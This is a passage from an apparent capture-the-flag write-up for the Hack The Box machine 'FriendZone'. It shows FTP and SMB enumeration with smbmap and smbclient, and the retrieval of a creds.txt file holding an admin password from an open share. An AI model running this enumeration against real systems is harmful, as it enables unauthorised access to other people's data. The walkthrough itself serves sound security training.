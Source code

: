 ```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:kali): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

### SMB Enumeration on port 139/445
Next, we will enumerate the shares on the smb server using smbmap. From the output, we can see that we have access to the general and the Development share.

```
┌──(kali㉿kali)-[~]
└─$ smbmap -u null -p null -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.htb                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

We will then enumerate the general share on the smb server using smbclient. From there, we are able to discover a creds.txt file that contains some admin credentials.
```
┌──(kali㉿kali)-[~]
└─$ smbclient -U "" //10.10.10.123/general
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Wed Jan 23 16:51:02 2019
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

9221460 blocks of size 1024. 6460372 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

┌──(kali㉿kali)-[~/Desktop/friendzone]
└─$ cat creds.txt                                     
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

